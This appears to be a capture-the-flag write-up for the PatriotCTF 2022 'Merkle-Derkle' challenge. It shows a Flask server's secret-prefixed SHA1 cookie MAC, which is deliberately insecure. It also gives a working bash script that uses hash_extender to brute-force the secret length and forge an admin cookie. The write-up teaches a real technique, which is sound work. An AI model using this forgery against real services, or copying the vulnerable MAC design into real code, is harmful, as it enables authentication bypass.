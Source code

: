 # Merkle-Derkle

### Description
I'm new to web development, so I'm still trying to figure out how to properly secure and authenticate user sessions. If you find a way to become admin, I will give you the flag in the `admin.html` page

### Writeup

This challenge is vulnerable to a hash length extension attack. Here is the relevant section of the server code:
```python
letters = string.ascii_letters
secret = ''.join(random.choice(letters) for i in range(random.randint(15,35)))

def new_user():
    user = "admin=False"
    data = secret + user
    mac = sha1(data.encode()).hexdigest()
    cookie_val = user.encode().hex() + "." + mac
    return cookie_val

def validate(cookie):
    user_hex = cookie.split(".")[0]
    user = bytes.fromhex(user_hex)
    data = secret.encode() + user
    
    cookie_mac = cookie.split(".")[1]
    if cookie_mac != sha1(data).hexdigest():
        raise Exception("MAC does not match!")
    
    return ast.literal_eval(user.split(b"=")[-1].decode()) 

@app.route("/", methods=["GET"])
def base():
    if not request.cookies.get('auth'):
        resp = make_response(render_template('index.html'))
        resp.set_cookie('auth', new_user())
        return resp
    else:
        try:
            admin = validate(request.cookies.get('auth'))
        except Exception as e:
            flash(str(e), 'danger')
            return render_template('index.html')

        if admin:
            return render_template('admin.html')
        else:
            return render_template('index.html')
```

We see that an `auth` cookie is set to the hex of `admin=False` separated by a period from the SHA1 hash of a secret between 15-35 chars prepended to `admin=False`. This is an insecure way to implement a MAC because the secret is prepended to user-controlled input (the user can send anything before the `.` and it will be decoded from hex and taken as the user identification string). This means we have a hash length extension vulnerability. 

I can't do a better job of explaining the attack than the following three blogs, so just read those if you want to understand what's happening:
- https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks
- https://journal.batard.info/post/2011/03/04/exploiting-sha-1-signed-messages
- https://blog.skullsecurity.org/2014/plaidctf-web-150-mtpox-hash-extension-attack

The tool [`hash_extender`](https://github.com/iagox86/hash_extender) will do all the work for us. We just need to tell it the initial data, initial hash of that data, the length of the secret prepended to the data, the type of hash, and what we want to append. 

We want to append `=True` because of this section in the code splitting the user string: `return ast.literal_eval(user.split(b"=")[-1].decode())`. Here is an example of the output from the tool:
```console
$hash_extender -d="admin=False" -s="b73beb3af33ddffa4572253f464b9e44acfa4424" -f=sha1 -a "=True" -l 33
Type: sha1
Secret length: 33
New signature: e94525e0d87e439340ee9cb5ebc39e894af5cf60
New string: 61646d696e3d46616c736580000000000000000000000000000000000001603d54727565
```
The only thing we do not know is the length, as it is a number between 15-35. We just have to brute force it then.

Here is my solution bash script:
```bash
#!/bin/bash

# get initial cookie
init_cookie=$(curl -s -D - -o /dev/null http://localhost:5000 | sed -nr 's/.*auth=(.*);.*/\1/p')
init_hash=$(echo $init_cookie | cut -d "." -f 2)

# brute force lengths from 15-35
for i in $(seq 15 35)
do
    echo $i
    # use hash_extender for new string and signature
    out=$(/opt/tools/hash_extender/hash_extender -d="admin=False" -s=$init_hash -f=sha1 -a "=True" -l $i)
    sig=$(echo $out | cut -d " " -f 8) # cut out signature from output
    string=$(echo $out | cut -d " " -f 11) # cut out new string from output
    cookie=$(echo "$string.$sig") # set cookie to string.signature
    # make request and see if PCTF is in output
    if curl -s 'http://localhost:5000' -H "Cookie: auth=$cookie" | grep "PCTF"; then
        break
    fi
done
```

Run it:
<p align="center"><img src="https://github.com/NihilistPenguin/PatriotCTF2022-Writeups/raw/main/writeup-images/merkle-solve.png" width=40%  height=40%></p>